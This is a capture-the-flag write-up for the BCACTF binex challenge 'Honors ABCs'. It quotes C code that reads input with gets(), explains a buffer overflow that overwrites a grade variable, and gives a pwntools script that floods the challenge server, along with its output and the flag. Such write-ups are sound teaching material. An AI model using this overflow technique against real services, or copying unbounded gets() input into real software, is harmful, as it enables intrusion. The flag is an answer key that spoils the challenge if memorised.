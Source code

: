 # Honors ABCs

#### Category : binex
#### Points : 75 points
#### Author : Edward Feng

## Challenge
Here at BCA, we don't deal with normal classes. Everything is at the honors level or above! Let's start by learning about the alphabet.

And by learning, we obviously mean testing. Don't cheat!

-   [honors-abcs.c](https://objects.bcactf.com/bcactf2/honors-abcs/honors-abcs.c)
-   [honors-abcs](https://objects.bcactf.com/bcactf2/honors-abcs/honors-abcs)
-   `nc bin.bcactf.com 49155`

## Solution
This was a simple buffer overflow exploit.

#### Vulnerable code
```cpp
    puts("╔════════════════════════╗");
    puts("║ THE QUIZ               ║");
    puts("║                        ║");
    puts("║ 1) Recite the alphabet ║");
    puts("╚════════════════════════╝");
    puts("");
    printf("Answer for 1: ");
    gets(response);

    for (int i = 0; i < 26; ++i) {
        if (response[i] == 0)
            break;
        if (response[i] != correct[i])
            break;

        grade = i * 4;
    }
```
`gets` is being used in the code, so we can overwrite the variable `grade` using it.

#### flag code
```cpp
else if (grade == 100) {
        puts("Perfect score!");
        puts("You are an model BCA student.");
    } else {
        puts("How did you end up here?");
        sleep(2);
        puts("You must have cheated!");
        sleep(2);
        puts("Let me recite the BCA plagarism policy.");
        sleep(2);

        FILE *fp = fopen("flag.txt", "r");
```

#### Getting flag.txt
So clearly, we don't need to assign a particular value to `grade` so we can just send a lot of `A`s and we should get the flag.

```python
#!/usr/bin/python2
from pwn import *
host = "bin.bcactf.com"
port = 49155
s = remote(host, port)
s.recvuntil("Answer for 1: ")
s.sendline("A"*200)
s.recvuntil("BCA plagarism policy.")
print(s.recvuntil("bcactf{")[-7:] + s.recvuntil("}"))
```

```bash
$ python get_flag.py
[+] Opening connection to bin.bcactf.com on port 49155: Done
bcactf{now_i_know_my_A_B_Cs!!_next_time_wont_you_cheat_with_me??}
[*] Closed connection to bin.bcactf.com port 49155
```

Flag  : ```bcactf{now_i_know_my_A_B_Cs!!_next_time_wont_you_cheat_with_me??}```
